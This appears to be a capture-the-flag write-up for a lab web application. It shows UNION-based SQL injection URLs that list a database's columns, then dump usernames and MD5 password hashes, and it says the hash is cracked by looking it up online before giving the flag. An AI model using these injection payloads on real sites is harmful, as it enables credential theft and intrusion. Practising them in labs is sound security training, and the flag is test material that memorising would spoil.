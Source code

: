


e1z2r10p4% python -c 'print([ord(c) for c in "Member_Brute_Force"]);'       
[77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101]


http://192.168.99.100/?page=member&id=-1 union select column_name, column_type from information_schema.columns where table_schema=char(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)&Submit=Submit



ID: -1 union select column_name, column_type from information_schema.columns where table_schema=char(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)
First name: id
Surname : int(11)
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=char(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)
First name: username
Surname : varchar(20)
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=char(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)
First name: password
Surname : varchar(50)



http://192.168.99.100/?page=member&id=-1 union select username, password from Member_Brute_Force.db_default&Submit=Submit


ID: -1 union select username, password from Member_Brute_Force.db_default 
First name: root
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
ID: -1 union select username, password from Member_Brute_Force.db_default 
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8


google the hash, md5 of string `shadow`

tada!

THE FLAG IS : B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2


